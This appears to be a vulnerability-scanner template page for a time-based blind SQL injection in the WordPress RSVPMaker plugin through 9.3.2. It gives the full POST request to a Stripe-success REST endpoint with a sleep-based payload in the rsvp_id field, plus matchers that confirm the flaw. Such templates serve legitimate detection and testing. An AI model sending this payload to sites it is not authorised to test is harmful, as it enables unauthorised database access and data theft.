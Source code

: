 ```
```
### Matchers

**Type - dsl**
- dsl
    1. duration>=6
    2. status_code == 200
    3. contains(content_type, "application/json")
    4. contains(body, "Invalid payment.")
- condition - and

---
# WordPress RSVPMaker <=9.3.2 - SQL Injection
## Description
- WordPress RSVPMaker plugin through 9.3.2 contains a SQL injection vulnerability due to insufficient escaping and parameterization on user-supplied data passed to multiple SQL queries in ~/rsvpmaker-email.php. An attacker can possibly obtain sensitive information, modify data, and/or execute unauthorized administrative operations in the context of the affected site.

- severity - high
- tags - cve,cve2022,wordpress,wp-plugin,wp,sqli,rsvpmaker
## Requests
### Step - 1
```
@timeout: 15s
POST /wp-json/rsvpmaker/v1/stripesuccess/anythinghere HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

rsvp_id=(select(0)from(select(sleep(5)))a)&amount=1234&email=randomtext

```
### Matchers

**Type - dsl**
- dsl
    1. duration>=5

**Type - word**
- part - body
- words
    1. "payment_confirmation_message":

**Type - word**
- part - header
- words
    1. application/json
